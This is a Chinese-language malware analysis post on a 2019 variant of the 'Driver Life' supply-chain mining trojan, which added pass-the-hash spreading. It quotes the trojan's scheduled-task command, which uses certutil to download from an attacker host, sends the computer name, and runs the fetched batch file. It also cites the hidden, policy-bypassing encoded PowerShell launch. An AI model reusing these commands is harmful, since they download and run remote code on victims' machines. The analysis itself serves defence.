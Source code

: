 ```yaml
---
categories: 应急响应
date: "2019-02-23T00:00:00Z"
description: 360安全大脑监测到通过”驱动人生”供应链攻击传播的挖矿木马在1月30日下午4时左右再次更新……
title: 驱动人生供应链木马攻击2019.1.30变种木马分析
url: /archivers/2019-02-23/1
---
```



## 0x00 事件背景

360安全大脑监测到通过"驱动人生"供应链攻击传播的挖矿木马在1月30日下午4时左右再次更新。此次更新中，木马在此前抓取系统帐户密码的基础上增加了抓取密码hash值的功能，并试图通过pass the hash攻击进行横向渗透，使得该木马的传播能力进一步加强，即使是有高强度口令的机器也有可能被攻陷。

pass the hash也称作哈希传递攻击，攻击者可以直接通过密码的哈希值访问远程主机或服务，而不用提供明文密码。攻击者使用pass the hash技术尝试在系统登录密码非弱口令并且无法抓取登录密码的情况下进行横向攻击，增加攻击成功率。

## 0x01 分析研讨

由于木马是样本都是不落地的方式，核心技术是通过定时计划任务执行powershell代码达到持续控制的目的，因此最先分析powershell代码，了解它做了哪些动作，指定查杀手段。



PS:样本代码过长，遂使用图片截图

## 0x02 分析过程

### 解密第一层

病毒样本：

![](https://images.payloads.online/4d16b518-4f5f-11ec-b05e-00d861bf4abb.png)

第一个动作，创建一个名为`Certificate`的任务计划，在七点开始，每隔一小时执行一次以下命令：

```

cmd.exe /c (cd %temp%&certutil -urlcache -split -f http://cert.beahh.com/cert.php?ver1=%COMPUTERNAME% v.dat>nul&expand -r v.dat>nul&v.bat>nul&del v.dat v.bat>nul)

```

由于目前`cert.beahh.com`已经无法访问，所以进行下一个powershell分析环节。

首先，`powershell -nop -w hidden -ep bypass -e `后接着就是base64编码的powershell代码，并且以Bypass作为当前执行策略。

Windows中的powershell执行策略：

```
PS C:\Users\Rvn0xsy> Get-ExecutionPolicy -List

        Scope ExecutionPolicy
        ----- ---------------
MachinePolicy       Undefined
   UserPolicy       Undefined
      Process       Undefined
  CurrentUser       Undefined
 LocalMachine          Bypass
```
